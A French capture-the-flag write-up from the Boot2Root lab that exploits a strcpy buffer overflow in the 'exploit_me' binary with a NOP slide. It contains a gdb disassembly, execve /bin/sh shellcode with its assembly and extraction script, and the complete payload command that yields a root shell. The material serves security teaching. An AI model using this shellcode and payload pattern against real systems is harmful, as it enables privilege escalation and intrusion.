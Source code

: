 # Buffer Overflow Nopslide exploit

A partir de **zaz**, on reprend le binaire **exploit_me** que l'on avait exploiter dans le [writeup1](https://github.com/ChokMania/Boot2Root/blob/master/writeup1.md) :

```
gdb -q ./exploit_me
(gdb)> disas main
Dump of assembler code for function main:
   0x080483f4 <+0>:	push   %ebp
   0x080483f5 <+1>:	mov    %esp,%ebp
   0x080483f7 <+3>:	and    $0xfffffff0,%esp
   0x080483fa <+6>:	sub    $0x90,%esp
   0x08048400 <+12>:	cmpl   $0x1,0x8(%ebp)
   0x08048404 <+16>:	jg     0x804840d <main+25>
   0x08048406 <+18>:	mov    $0x1,%eax
   0x0804840b <+23>:	jmp    0x8048436 <main+66>
   0x0804840d <+25>:	mov    0xc(%ebp),%eax
   0x08048410 <+28>:	add    $0x4,%eax
   0x08048413 <+31>:	mov    (%eax),%eax
   0x08048415 <+33>:	mov    %eax,0x4(%esp)
   0x08048419 <+37>:	lea    0x10(%esp),%eax
   0x0804841d <+41>:	mov    %eax,(%esp)
   0x08048420 <+44>:	call   0x8048300 <strcpy@plt>
   0x08048425 <+49>:	lea    0x10(%esp),%eax
   0x08048429 <+53>:	mov    %eax,(%esp)
   0x0804842c <+56>:	call   0x8048310 <puts@plt>
   0x08048431 <+61>:	mov    $0x0,%eax
   0x08048436 <+66>:	leave
   0x08048437 <+67>:	ret
End of assembler dump.
```
<pre><code>0x08048400 <+12>:	cmpl   $0x1,0x8(%ebp)</code></pre>
>Le compare nous indique que le programme attend 1 seul argument.
```
0x08048420 <+44>:	call   0x8048300 <strcpy@plt>
```
>strcpy copie et stocke notre premier argument dans la stack sans vérifier si la taille de l'argument correspond à celle du buffer de destination.

La fonction est donc exploitable par <code>buffer_overflow</code> pour corrompre les valeurs sauvegardées de **%ebp** et **%eip**.

On va effectuer une **nopslide attack**, qui consiste a placer un **SHELLCODE**, executant un **"shell"** ou une autre fonction, au milieu d'une **slide de nop** (**"\x90"**).
> L'instruction **nop** n'a comme seul but de passer a l'instruction suivante.

On connait l'adresse du buffer qui est :

<code>0xbffff640</code>

On connait l'**offset**, auquel on ecrase **%eip**, qui est de 140 et possede une taille de 4.

On utilse le **SHELLCODE** 23 bytes, génerer de la maniere suivante :

### <span>script.sh</span>
```bash
#!/bin/sh
nasm -f elf binsh.s
objdump -d binsh.o
echo ''
objdump -d binsh.o | cut -d '	' -f2 | tr '\n' ' ' | sed $'s/^.*_main>:/shellcode::::::\\\n/' | tr -s ' ' | sed 's/ /\\x/g' | sed 's/......$//'
echo '\n'
LENGTH=`objdump -d binsh.o | tail -1 | cut -f1 | sed 's/.$//' | sed 's/ *//'`
LENGTHDEC=$(echo "obase=10; ibase=16; $LENGTH" | bc)
printf "lenght = 0x%d // %d \n" $LENGTH $LENGTHDEC
rm binsh.o
```
### <span>binsh.s</span>

```as
section .text
global _main

_main:
xor eax, eax	; eax = 0
push eax		; push null termination
push 0x68732f2f	; hs//
push 0x6e69622f	; nib/
mov ebx, esp	; path
mov ecx, eax	; argv
mov edx, eax	; env
mov al, 0xb		; sysall code for execve
int 0x80
nop
```

<pre><code>> sh script.sh

binsh.o:     file format elf32-i386


Disassembly of section .text:

00000000 <_main>:
   0:   31 c0                   xor    %eax,%eax
   2:   50                      push   %eax
   3:   68 2f 2f 73 68          push   $0x68732f2f
   8:   68 2f 62 69 6e          push   $0x6e69622f
   d:   89 e3                   mov    %esp,%ebx
   f:   89 c1                   mov    %eax,%ecx
  11:   89 c2                   mov    %eax,%edx
  13:   b0 0b                   mov    $0xb,%al
  15:   cd 80                   int    $0x80
  17:   90                      nop

shellcode:
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80

lenght = 0x17 // 23
</code></pre>

On prepare un **PAYLOAD** de 144 charactères, composé de la maniere suivante :
<pre><code>NOPSLIDE * 60 + SHELLCODE + NOPSLIDE * 57 + Address dans la 1ère NOPSLIDE/code></code></pre>

<pre><code>./exploit_me `python -c "print '\x90'*60 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80' + '\x90'*57 + '\x50\xf6\xff\xbf'"`</code></pre>

Nous obtenons un terminal avec les droits **root** :
```
> id
uid=1005(zaz) gid=1005(zaz) euid=0(root) groups=0(root),1005(zaz)
```